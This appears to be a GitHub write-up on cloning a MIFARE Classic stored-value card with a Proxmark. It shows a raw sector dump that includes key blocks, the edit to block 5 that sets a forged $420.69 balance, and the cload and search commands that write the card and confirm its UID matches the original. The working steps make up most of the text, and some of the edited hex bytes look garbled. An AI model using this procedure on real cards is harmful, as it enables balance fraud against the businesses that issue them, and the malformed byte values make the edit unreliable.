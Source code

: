 ```

> In the following phase of the attempted exploitation, the objective was to modify the card’s data and write it onto a new card for the purpose of testing.

### Data Dump
The card's data was successfully extracted into a ```.eml``` file, allowing for specific line modifications. 
The initial data extraction presented as follows:

- Block 0: 1EE65D01A4080400032C48089DFCFB1D
- Block 1: 00000000000000000000000000000000
- Block 2: 00000000000000000000000000000000
- Block 3: FFFFFFFFFFFFFF078069FFFFFFFFFFFF
- Block 4: 303031302E3232343831202020202020
- Block 5: 303432302E3639343230202020202020
- Block 6: 32303233303931343138323133312020
- Block 7: DDBBCC221166FF078069DDBBCC221166
- (and so on...)


-----


### Editing Block 5
Specifically, block 5 of the card's data was modified to read as follows:

```30 34 2 0 2E 36 39 4 2 0 20 20 20 20 20 20```

Adjusting the above value via the hexadecimal editor resulted in the text "```0420.69420```". This indicated the card should now operate as follows:

- ```420.69```: Representing the card balance, indicating a remaining balance of $420.69
- ```42```: Representing the tee tee height setting.
- The significance of the ending "0" within this data element is presently under review and requires further investigation.


-----


### Writing to the cloned card
``` hf mf cload -f hf-mf-1EE65D01-dump.eml ```

I utilized the following command to write the edited data, including the updated block 5 changes, to the cloned card:

![copy](https://i.imgur.com/KVjRXqk.png)


-----


### Verifying the cloned card
``` hf search ```

Result:
- UID: 1E E6 5D 01
- ATQA: 00 04
- SAK: 08 [2]

The important thing here, is that the UID of the cloned card, matches the UID of the original card.

![search](https://i.imgur.com/LpLsVg3.png)
```
